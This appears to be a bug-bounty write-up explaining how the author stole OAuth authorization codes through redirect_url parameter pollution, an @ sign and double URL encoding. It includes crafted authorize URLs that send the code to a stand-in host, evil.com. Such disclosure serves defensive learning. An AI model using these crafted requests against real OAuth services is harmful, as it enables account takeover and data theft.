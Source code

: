 # Account Takeover Through OAuth Parameter Pollution

## How:

The application provides a service for third-party applications to create an OAuth app with it, Let's call our application example.com and the third party one third.com so third.com tells you that you can connect your example.com account with your current account, So in order to do this the third.com has to ask example.com to make him an OAuth application, This is just to demonstrate the feature.

So what happens after you click on sign in with or connect using example.com, the third.com redirects you to example.com with a request like this ----> 
**https://example.com/oauth/authorize?response_type=code&redirect_url=https://third.com/callback&state=[some value]**, So by visiting this endpoint example.com will ask you to consent third.com then redirect you back to third.com with the OAuth code.


So I thought about what will happen if I added another redirect_url parameter like this **https://example.com/oauth/authorize?response_type=code&redirect_url=https://third.com/callback&redirect_url=https://evil.com&state=[some value]**, By doing this I found that example.com redirects me to third.com but with this interesting way **https://third.com/callback/,https://evil.com?code=[some value]&state=[some value]**, Noticed the  **,http://evil.com**, I intercepted the requests after clicking on consent and I have found the app sends the consent request with the two redirect_uri like this **redirect_url=https://third.com/callback&redirect_uri=https://evil.com** and the response of it is just 200 status code with the code and state in the body of the response.


So I knew that the problem of appending the two redirect_uri is not from the backend code but it's from the client side code, So I thought how can I get an open redirect by this clearly the client code adds the character "," Before appending the two redirect_uri like this **https://third.com/callback,https://evil.com**, I thought about removing the https:// part from the second redirect_uri and add a dot character like this ".evil.com" to make it look like a subdomain but I knew that the subdomain part can't has, or /.


So what about adding @ sign rather than using dot of course this didn't work also because if you redirected to an endpoint like this **https://third.com/callback/,@evil.com** it won't redirect you to evil.com, So what is about encoding, If you tried to paste this in a browser admin@evil.com you will see that a browser like a firefox treats the first part before @ as a user name so it's like connecting to a server using ssh if you tried it before, So leave the second redirect_uri with a value like this @evil.com and double encode the special characters in the first redirect_uri like this **https://third.com%252Fcallback%252F**.


Why double-encode it? because, If you are redirected to an endpoint like this **https://third.com%2Fcallback%2F,@evil.com** you will see that the browser translates %2F to / and still redirects you to third.com so to come across this, encode the / two times so that the first time the browser decodes it %2F but the second time it won't decode it to/so that the final redirection will be like this **https://third.com%2Fcallback%2F,@evil.vom?code=[some code]&state=[some state]** and you will be redirected to evil.com with the OAuth code and you succeeded to steal the OAuth code.


So where is the problem? at the backend however that it receives the first redirect_uri like this **https://third.com%252Fcallback%252F** but what it does is that it double decodes it and then validate it against the stored value and of course, it will be true so it will return the OAuth code, but if it didn't double decode it won't be true so even if the user redirected to evil.com he won't be redirected with the OAuth code so the impact is low.

What is the impact? the impact is high this application provides OAuth apps to third-party applications so every third-party application is affected by it, It can lead to account takeover or sensitive data leak.


## My Info

#### Intigriti  : <a href="https://app.intigriti.com/researcher/profile/mekky">https://app.intigriti.com/researcher/profile/mekky</a>

#### Yeswehack  : <a href="https://yeswehack.com/hunters/mekky">https://yeswehack.com/hunters/mekky</a>

#### Linkedin   : <a href="https://www.linkedin.com/in/muhammed-mekkawy-1504821b2/">https://www.linkedin.com/in/muhammed-mekkawy-1504821b2/</a>

#### Twitter    : <a href="https://twitter.com/Mekky49295157">https://twitter.com/Mekky49295157</a>


